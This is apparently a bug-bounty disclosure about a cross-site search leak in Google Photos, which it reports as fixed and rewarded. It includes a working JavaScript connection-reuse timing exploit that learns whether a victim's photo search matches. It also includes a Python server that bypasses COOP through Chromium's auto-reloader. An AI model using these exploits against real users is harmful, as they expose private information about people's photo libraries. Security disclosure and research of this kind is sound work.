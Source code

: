 ```yaml
---
title: XS-Search on Google Photos
---
```


Google Photos is a service by Google, a subsidiary of Alphabet used to store and view user uploaded duck photos.

# XS-Leak (Fixed, Awarded $1337)

This attack is documented at <https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/#connection-reuse>  
Usage is `await search('duck')` to leak if a query exists (If victim took a photo of a duck)

```js
async function isConnected() {
  // Detect connection reuse for lh3.googleusercontent.com
  // No timing attack needed because of timing-allow-origin: *
  performance.clearResourceTimings();
  await fetch('https://lh3.googleusercontent.com/', {mode: 'cors'});
  await new Promise((r) => setTimeout(r, 1000));
  let data = performance.getEntries().pop();
  return data.connectStart === data.startTime;
}

async function search(query) {
  let w = open();
  // Close connections using idle timeout.
  await new Promise((r) => setTimeout(r, 30000));
  // First try is free, next needs COOP or user activation bypass.
  w.location = 'https://photos.google.com/search/' + query;
  await new Promise((r) => setTimeout(r, 5000));
  return await isConnected();
}
```

# COOP bypass (Fixed, Awarded $3000)

Abuses the Chromium auto reloader using a invalid server response, also worked with max redirect limit.

```js
from http.server import BaseHTTPRequestHandler, HTTPServer

sessions = set()

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if (self.path not in sessions):
            self.send_response(200)
            self.send_header("Cache-Control", "no-store")
            message = "<invalid>"
            self.wfile.write(bytes(message, "utf8"))
            self.end_headers()
            sessions.add(self.path)
        else:
            self.send_response(307)
            self.send_header('Cache-Control', 'no-store')
            self.send_header('Location','https://photos.google.com/search/duck')
            self.end_headers()
            sessions.remove(self.path)

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```

This was fixed in <https://issues.chromium.org/40060695>
